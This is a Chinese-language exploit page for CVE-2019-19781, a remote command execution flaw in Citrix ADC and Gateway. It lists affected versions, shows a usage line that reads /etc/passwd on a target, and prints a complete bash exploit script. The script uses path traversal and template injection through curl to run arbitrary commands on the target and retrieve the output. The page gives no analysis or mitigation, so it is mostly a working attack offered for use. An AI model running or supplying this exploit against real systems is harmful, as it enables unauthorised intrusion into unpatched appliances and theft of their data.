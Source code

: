 （CVE-2019-19781）Citrix 远程命令执行漏洞
=========================================

一、漏洞简介
------------

二、漏洞影响
------------

13.x,12.1,12.0,11.1,10.5

三、复现过程
------------

    bash CVE-2019-19781.sh www.0-sec.org 'cat /etc/passwd'

1.png

    CVE-2019-19781.sh
    #!/bin/bash
    # Remote Code Execution Exploit for Citrix Application Delivery Controller and Citrix Gateway - CVE-2019-19781
    # Usage : bash CVE-2019-19781.sh IP_OF_VULNURABLE_HOST COMMAND_TO_EXECUTE e.g : bash CVE-2019-19781.sh XX.XX.XX.XX 'uname -a'
    # Release Date : 11/01/2020
    # Follow Us : https://twitter.com/ProjectZeroIN / https://github.com/projectzeroindia
    echo "=================================================================================
     ___             _           _     ____                 ___           _  _
    | _ \ _ _  ___  (_) ___  __ | |_  |_  / ___  _ _  ___  |_ _| _ _   __| |(_) __ _
    |  _/| '_|/ _ \ | |/ -_)/ _||  _|  / / / -_)| '_|/ _ \  | | | ' \ / _' || |/ _' |
    |_|  |_|  \___/_/ |\___|\__| \__| /___|\___||_|  \___/ |___||_||_|\__,_||_|\__,_|
                  |__/                                                 CVE-2019-19781
    ================================================================================="
    ##############################
    if [ -z "$1" ];
    then
    echo -ne 'Usage : bash CVE-2019-19781.sh IP_OF_VULNURABLE_HOST COMMAND_TO_EXECUTE\n'
    exit;
    fi
    export LC_CTYPE=C
    filenameid=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1);
    curl -s -k "https://$1/vpn/../vpns/portal/scripts/newbm.pl" -d "url=http://example.com\&title=[%25+template.new({'BLOCK'%3d'exec(\'$2 | tee /netscaler/portal/templates/$filenameid.xml\')%3b'})+%25]\&desc=test\&UI_inuse=RfWeb" -H "NSC_USER: /../../../../../../../../../../netscaler/portal/templates/$filenameid" -H 'NSC_NONCE: test1337' -H 'Content-type: application/x-www-form-urlencoded' --path-as-is
    echo -ne "\n" ;curl -m 3 -k "https://$1/vpn/../vpns/portal/$filenameid.xml" -s -H "NSC_NONCE: pwnpzi1337" -H "NSC_USER: pwnpzi1337" --path-as-is
    echo -ne "Command Output :\n"
    curl -m 3 -k "https://$1/vpn/../vpns/portal/$filenameid.xml" -H "NSC_NONCE: pwnpzi1337" -H "NSC_USER: pwnpzi1337" --path-as-is
    © 2020 GitHub, Inc.
